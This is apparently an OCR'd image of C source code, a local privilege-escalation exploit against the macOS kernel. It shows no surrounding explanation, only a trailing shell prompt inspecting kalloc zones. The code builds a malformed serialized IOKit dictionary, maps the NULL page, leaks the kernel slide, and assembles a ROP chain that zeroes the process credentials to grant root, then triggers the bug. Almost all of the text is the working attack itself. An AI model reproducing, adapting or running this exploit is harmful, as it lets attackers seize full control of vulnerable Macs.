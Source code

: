 ```c
    WRITE_IN(dict, (kOSSerializeSymbol | 4));   // symbol 'BBB'
    WRITE_IN(dict, (0x00424242));
    WRITE_IN(dict, (kOSSerializeData | 32));    // data (0x00 * 32)
    WRITE_IN(dict, (0x00000000));
    WRITE_IN(dict, (0x00000000));
    WRITE_IN(dict, (0x00000000));
    WRITE_IN(dict, (0x00000000));
    WRITE_IN(dict, (0x00000000));
    WRITE_IN(dict, (0x00000000));
    WRITE_IN(dict, (0x00000000));
    WRITE_IN(dict, (0x00000000));
    WRITE_IN(dict, (kOSSerializeSymbol | 4));   // symbol 'CCC'
    WRITE_IN(dict, (0x00434343));
    WRITE_IN(dict, (kOSSerializeEndCollection | kOSSerializeObject | 1));   // ref to object 1 (OSString)
    /* map the NULL page */
    mach_vm_address_t null_map = 0;
    vm_deallocate(mach_task_self(), 0x0, PAGE_SIZE);
    kr = mach_vm_allocate(mach_task_self(), &null_map, PAGE_SIZE, 0);
    if (kr != KERN_SUCCESS)
        return;
    macho_map_t *map = map_file_with_path(KERNEL_PATH_ON_DISK);
    printf("(i) Leaking kslide...\n");
    SET_KERNEL_SLIDE(kslide_infoleak()); // set global kernel slide
    /* set the stack pivot at 0x20 */
    *(volatile uint64_t *)(0x20) = (volatile uint64_t)ROP_XCHG_ESP_EAX(map); // stack pivot
    /* build ROP chain */
    printf("(i) Building ROP chain...\n");
    rop_chain_t *chain = calloc(1, sizeof(rop_chain_t));
    PUSH_GADGET(chain) = SLIDE_POINTER(find_symbol_address(map, "_current_proc"));
    PUSH_GADGET(chain) = ROP_RAX_TO_ARG1(map, chain);
    PUSH_GADGET(chain) = SLIDE_POINTER(find_symbol_address(map, "_proc_ucred"));
    PUSH_GADGET(chain) = ROP_RAX_TO_ARG1(map, chain);
    PUSH_GADGET(chain) = SLIDE_POINTER(find_symbol_address(map, "_posix_cred_get"));
    PUSH_GADGET(chain) = ROP_RAX_TO_ARG1(map, chain);
    PUSH_GADGET(chain) = ROP_ARG2(chain, map, (sizeof(int) * 3));
    PUSH_GADGET(chain) = SLIDE_POINTER(find_symbol_address(map, "_bzero"));
    PUSH_GADGET(chain) = SLIDE_POINTER(find_symbol_address(map, "_thread_exception_return"));
    /* chain transfer, will redirect execution flow from 0x0 to our main chain above */
    uint64_t *transfer = (uint64_t *)0x0;
    transfer[0] = ROP_POP_RSP(map);
    transfer[1] = (uint64_t)chain->chain;
    /* trigger */
    printf("(+) All done! Triggering the bug!\n");
    host_get_io_master(mach_host_self(), &master); // get iokit master port
    kr = io_service_get_matching_services_bin(master, (char *)dict, idx, &res);
    if (kr != KERN_SUCCESS)
        return;
}
```


[jndok:~jndok(Debug)]: sudo zprint | grep kalloc